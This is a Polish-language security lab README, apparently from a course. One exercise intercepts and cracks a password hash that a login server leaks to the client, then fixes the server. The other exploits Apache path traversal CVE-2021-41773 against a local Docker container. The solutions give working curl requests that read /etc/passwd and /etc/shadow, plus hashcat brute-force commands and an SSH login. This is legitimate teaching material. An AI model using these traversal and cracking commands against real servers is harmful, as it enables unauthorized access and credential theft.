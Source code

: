 # __Przygotowanie Środowiska__
- **[Docker Desktop](https://www.docker.com/products/docker-desktop/)**

Docker to platforma do tworzenia, uruchamiania i zarządzania kontenerami oprogramowania. Kontenery to lekkie, samodzielne jednostki oprogramowania, które zawierają wszystko, czego potrzeba do uruchomienia aplikacji, w tym kod, biblioteki, zależności i pliki konfiguracyjne.

- **[John the Ripper](https://www.openwall.com/john/) | [Hashcat](https://hashcat.net/hashcat/)**

<br><br>

# __Hash od Serwera__

Jest to luka utworzona poprzez zwykły ludzki błąd przy projektowaniu systemu logowania. Serwer zamiast sprawdzać prawidłowość hasła u siebie to sprawdza po stronie klienta, przez co atakujący w łatwy sposób może wykorzystać te informacje by złamać hasło.

## **Zaczynamy**:

1. Należy uruchomić serwer oraz client

    **Uruchamianie Klienta:**
    
    Wejdź do katalogu client a następnie wykonaj poniższe komendy:

        ```
        npm ci
        npm start
        ```

    **Uruchamianie Serwera:*
    
    Wejdź do katalogu server a następnie wykonaj poniższe komendy:
    
        ```
        npm ci
        npm start
        ```

2. Teraz uruchom bazę danych w dokerze za pomocą komendy (należy znajdować się w folderze zawierającym plik "docker-compose.yaml"):
    ```
    docker compose up
    ```
## **Zadanie 1**
Zdobądź hash hasła do użytkownika admin, a następnie złam za pomocą dowolnego narzędzia. Zauważ, że przy próbie logowania na konto danego uzytkowika serwer zwraca ci hash jego hasła. Spróbuj go podglądnąć przy pomocy Burpa czy też innych narzędzi.

<details>
<summary>Rozwązanie</summary>
<br>

Wysyłamy zapytanie z formularza logowania do użytkownika `admin` za pomocą **Burpa** a nastepnie odczytujemy hash hasła z odpowiedzi uzyskanej od serwera.

Uzyskanie hasło próbujemy złamać przy pomocy hashcata

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

password to plik w którym przechowujemy hash, który będzie przez nas łamany.

Jeśli chodzi o ciąg znaków "?u?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Czyli hashcat dla argunetu "?u?u?u?u" wygeneruje wszytskie 4 znakowe możliwości liter "ABCDEFGHIJKLMNOPQRSTUVWXYZ".

Po złamaniu hasła logujemy się na serwer

</details>

## **Zadanie 2**
Korzystając z wiedzy zdobytej podczas prezentacji oraz na innych zajęciach, popraw aplikację, tak aby do porównywania haszy dochodziło w odpowiednim miejscu. Czyli:
1. Porównywanie haszy powinno następować bezpośrednio po pobraniu haszu z bazy danych.
2. Serwer nie może pobranego z bazy danych haszu zwracać w odpowiedzi do klienta.

<details>
<summary>Wskazówki</summary>
<br>
W pliku server.js
w endpoincie /login zahaszuj hasło którym użytkownik próbuje się zalogować (skorzystaj z wzoru w kodzie klienta), następnie porównaj je z haszem wyciąganym z bazy. Do klienta w response wyślij status: 200 OK lub 401 Unauthorized w zależności od tego czy dane logowania się zgadzają. Zrób to za pomocą res.sendStatus(code)
</details>


<br><br>

# __Path Traversal__

Path Traversal to poważna luka w zabezpieczeniach, która może być wykorzystywana przez hakerów do uzyskania nieautoryzowanego dostępu do systemu lub do wykonania nieautoryzowanych poleceń na zdalnym komputerze.

**<u>Podana luka została znaleziona w serwerze Apache 2.4.49 oraz 2.4.50 i nazwana [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)</u>**

**Apache** to darmowe, otwartoźródłowe i wieloplatformowe oprogramowanie serwera WWW wydane na licencji Apache License 2.0. Oprogramowanie jest utrzymywane i rozwijane przez organizację non profit Apache Software Foundation.

Podatność **Path Travesal** występuje jeśli serwer posiada następującą konfiguracją

```console
<Directory />
Require all granted
</Directory>
```

W tym przypadku ustawienie `Require all granted` oznacza, że wszyscy użytkownicy mają mieć dostęp do plików i katalogów.


<br>
<br>

## **Zaczynamy**:

1. Należy uruchomić kontener komendą

```console
docker run -p 8090:80 -p 22:22 gekonisko/path-traversal
```

Kontener wystawia dwa port

- http[80]: http://localhost:8090
- ssh[22]: agh@localhost

<br>

2. Korzystając z narzędzi curl, postam, burp itp. wyślij następujące zapytanie

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e etc/passwd
```

Serwer powinien zwrócić zawartość pliku `/etc/passwd` zawierający również specjalne konto **agh**

```console
…
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
agh:x:1000:1000:,,,:/home/agh:/bin/bash
```

## **Zadanie 2**

Serwer ma wystawiony również protokół SSH, twoim zadaniem jest zalogowanie się na użytkownika agh przez protokół ssh `ssh agh@localhost`. Wykorzystaj plik `etc/shadow` aby wyciągnąć hasło użytkownika agh.

<details>
<summary>Rozwązanie</summary>

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/shadow
```

wynik:

```console
...
agh:$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1:19364:0:99999:7:::
```

zapisujemy hash w pliku

```
echo '$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1' > password
```

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

password to plik w którym przechowujemy hash, który będzie przez nas łamany

Jeśli chodzi o ciąg znaków "?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Po złamaniu hasła logujemy sie na serwer

```
ssh agh@localhost
```

</details>
